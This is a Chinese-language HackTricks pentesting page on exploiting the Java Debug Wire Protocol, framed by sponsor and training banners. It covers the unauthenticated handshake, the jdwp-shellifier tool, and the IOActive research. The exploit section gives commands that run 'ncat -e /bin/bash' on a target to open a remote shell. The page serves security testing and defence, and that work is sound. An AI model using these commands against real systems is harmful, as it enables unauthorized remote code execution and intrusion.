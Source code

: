 # Pentesting JDWP - Java Debug Wire Protocol

{% hint style="success" %}
学习与实践 AWS 黑客技术：<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
学习与实践 GCP 黑客技术：<img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub 仓库提交 PR 分享黑客技巧。

</details>
{% endhint %}

<figure><img src="/.gitbook/assets/pentest-tools.svg" alt=""><figcaption></figcaption></figure>

#### 从黑客的角度看待您的网络应用、网络和云

**发现并报告具有实际商业影响的关键可利用漏洞。** 使用我们 20 多个自定义工具来映射攻击面，查找允许您提升权限的安全问题，并使用自动化利用收集重要证据，将您的辛勤工作转化为有说服力的报告。

{% embed url="https://pentest-tools.com/?utm_term=jul2024&utm_medium=link&utm_source=hacktricks&utm_campaign=spons" %}

## 利用

JDWP 利用依赖于 **协议缺乏身份验证和加密**。它通常位于 **8000 端口**，但其他端口也是可能的。初始连接是通过向目标端口发送 "JDWP-Handshake" 来建立的。如果 JDWP 服务处于活动状态，它会以相同的字符串响应，确认其存在。此握手作为一种指纹识别方法，用于识别网络上的 JDWP 服务。

在进程识别方面，在 Java 进程中搜索字符串 "jdwk" 可以指示一个活动的 JDWP 会话。

首选工具是 [jdwp-shellifier](https://github.com/hugsy/jdwp-shellifier)。您可以使用不同的参数：
```bash
./jdwp-shellifier.py -t 192.168.2.9 -p 8000 #Obtain internal data
./jdwp-shellifier.py -t 192.168.2.9 -p 8000 --cmd 'ncat -l -p 1337 -e /bin/bash' #Exec something
./jdwp-shellifier.py -t 192.168.2.9 -p 8000 --break-on 'java.lang.String.indexOf' --cmd 'ncat -l -p 1337 -e /bin/bash' #Uses java.lang.String.indexOf as breakpoint instead of java.net.ServerSocket.accept
```
我发现使用 `--break-on 'java.lang.String.indexOf'` 使得利用更加 **稳定**。如果你有机会将后门上传到主机并执行它，而不是执行命令，利用将会更加稳定。

## 更多细节

**这是 [https://ioactive.com/hacking-java-debug-wire-protocol-or-how/](https://ioactive.com/hacking-java-debug-wire-protocol-or-how/) 的总结**。请查看以获取更多细节。

1. **JDWP 概述**：
- 这是一种基于数据包的网络二进制协议，主要是同步的。
- 缺乏身份验证和加密，使其在暴露于恶意网络时容易受到攻击。

2. **JDWP 握手**：
- 使用简单的握手过程来启动通信。调试器（客户端）和被调试程序（服务器）之间交换一个14个字符的ASCII字符串“JDWP-Handshake”。

3. **JDWP 通信**：
- 消息具有简单的结构，包含长度、ID、标志和命令集等字段。
- 命令集值范围从 0x40 到 0x80，表示不同的操作和事件。

4. **利用**：
- JDWP 允许加载和调用任意类和字节码，带来安全风险。
- 文章详细描述了一个五步的利用过程，包括获取 Java 运行时引用、设置断点和调用方法。

5. **现实生活中的利用**：
- 尽管可能有防火墙保护，JDWP 服务在现实场景中仍然可被发现和利用，正如在 ShodanHQ 和 GitHub 上的搜索所示。
- 利用脚本已在各种 JDK 版本上测试，并且是平台无关的，提供可靠的远程代码执行（RCE）。

6. **安全影响**：
- 互联网上开放的 JDWP 服务的存在强调了定期进行安全审查、在生产环境中禁用调试功能以及适当的防火墙配置的必要性。

### **参考文献：**

* [[https://ioactive.com/hacking-java-debug-wire-protocol-or-how/](https://ioactive.com/hacking-java-debug-wire-protocol-or-how/)]
* [https://github.com/IOActive/jdwp-shellifier](https://github.com/IOActive/jdwp-shellifier)
* [http://docs.oracle.com/javase/7/docs/technotes/guides/jpda/architecture.html](http://docs.oracle.com/javase/7/docs/technotes/guides/jpda/architecture.html)
* http://www.secdev.org/projects/scapy(不再活跃)
* [http://www.shodanhq.com/search?q=JDWP-HANDSHAKE](http://www.shodanhq.com/search?q=JDWP-HANDSHAKE)
* http://www.hsc-news.com/archives/2013/000109.html (不再活跃)
* [http://packetstormsecurity.com/files/download/122525/JDWP-exploitation.txt](http://packetstormsecurity.com/files/download/122525/JDWP-exploitation.txt)
* https://github.com/search?q=-Xdebug+-Xrunjdwp\&type=Code\&ref=searchresults
* [http://docs.oracle.com/javase/6/docs/api/java/lang/Runtime.html](http://docs.oracle.com/javase/6/docs/api/java/lang/Runtime.html)
* [http://docs.oracle.com/javase/1.5.0/docs/guide/jpda/jdwp-spec.html](http://docs.oracle.com)
* [http://docs.oracle.com/javase/1.5.0/docs/guide/jpda/jdwp/jdwp-protocol.html](http://docs.oracle.com/javase/1.5.0/docs/guide/jpda/jdwp/jdwp-protocol.html)
* [http://nmap.org/nsedoc/scripts/jdwp-exec.html](http://nmap.org/nsedoc/scripts/jdwp-exec.html)

<figure><img src="/.gitbook/assets/pentest-tools.svg" alt=""><figcaption></figcaption></figure>

#### 获取黑客对您的网络应用程序、网络和云的看法

**查找并报告具有实际商业影响的关键可利用漏洞。** 使用我们20多个自定义工具来映射攻击面，发现让您提升权限的安全问题，并使用自动化利用收集重要证据，将您的辛勤工作转化为有说服力的报告。

{% embed url="https://pentest-tools.com/?utm_term=jul2024&utm_medium=link&utm_source=hacktricks&utm_campaign=spons" %}

{% hint style="success" %}
学习和实践 AWS 黑客攻击：<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
学习和实践 GCP 黑客攻击： <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub 仓库提交 PR 来分享黑客技巧。

</details>
{% endhint %}
